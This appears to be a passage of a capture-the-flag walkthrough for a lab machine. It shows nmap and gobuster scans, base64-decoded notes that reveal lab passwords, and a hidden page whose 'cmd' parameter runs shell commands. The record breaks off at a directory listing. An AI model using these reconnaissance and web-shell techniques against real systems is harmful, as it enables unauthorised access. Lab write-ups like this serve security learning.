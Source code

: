 **Tristan Gomez**

```
└─$ sudo nmap -sS 10.10.8.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-30 12:08 PDT
Nmap scan report for 10.10.8.110
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.76 seconds

```

//they switch ports on me. 22 is http and 80 is ssh!
`http://10.10.8.110:22/`

```
└─$ gobuster dir -x .php -w directory-list-2.3-small.txt -u http://10.10.8.110:22/                              
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.8.110:22/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/08/30 12:13:25 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 314] [--> http://10.10.8.110:22/assets/]
/recovery.php         (Status: 200) [Size: 943] 
```

```
Note to self - If I ever get locked out I can get back in at /recovery.php! 
  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==
                    
Remember to wish Johny Graves well with his crypto jobhunting! 
His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

// recovery.php
```
 GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  
```

```
Remember that the credentials to the recovery login are hidden on the homepage! 
I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

```
└─$ cat cms*
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY

```

// http://10.10.8.110:22/nnxhweOV/index.php

`GET me a 'cmd' and I'll run it for you Future-Jack. `

// http://10.10.8.110:22/nnxhweOV/index.php?cmd=ls
`GET me a 'cmd' and I'll run it for you Future-Jack. index.php index.php`
                                                 
```
total 16 
drwxr-xr-x 3 root root 4096 Feb 29 2020 . 
drwxr-xr-x 23 root root 4096 Feb 29 2020 .. 
drwxr-x--- 3 jack jack 4096 Feb 29 2020 jack 
-rw-r--r-- 1 root root 408 Feb 29 2020 jacks_password_list
-rw-r--r-- 1 root root 408 Feb 29 2020 jacks_password_list
```
                                           

